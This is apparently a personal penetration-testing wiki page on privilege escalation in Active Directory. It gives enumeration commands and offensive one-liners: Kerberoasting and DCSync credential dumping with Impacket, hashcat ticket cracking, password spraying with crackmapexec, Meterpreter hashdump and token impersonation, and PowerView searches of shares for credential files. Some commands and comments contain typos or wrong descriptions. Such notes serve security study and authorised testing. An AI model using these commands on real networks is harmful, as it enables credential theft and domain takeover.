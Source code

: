 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration]]. [[Network-Services]] are used extensive, especially [[DNS-Theory]] in AD networks.

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## General Enumeration
[[Active-Directory-Enumeration]] for more detail whys and hows.
```powershell
net user /domain # User account fo r \\DC*.*domain*.*tld
net user *admin* /domain # information about the admin
net group /domain # All groups in domain
```

```powershell
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```

```powershell
NetWkstaUserEnum #(requires Administrative privileges returns a list of active users on a workstation that admin has local administrator privileges over) - Use Post for Movement
NetSessionEnun # returns list of list of active user sessions on servers 
NetSessionEnum # enumerate all active users' sessions

```


## Tools

#### DNS
For more about [[DNS-Theory]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].

#### SMB enumeration tools

See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]

#### LDAP
[[LDAP-Recon]]

#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 


#### Crackmapexec


#### Empire and Starkiller


Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR
`hashcat -m 13100 -a 0 hash.txt rockyou.txt`

#### Impacket

Kerberoasting 
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP $DOMAIN.local/$USER:$PASSWORD -request
```
Exploit DCSync Privileges
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip $IP $DOMAIN/$USER@$IP
```

#### Kerbrute

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains." For a good concatenation of all the [[Powerview-Cheatsheet]]s see follow the link.
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help.
```powershell
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

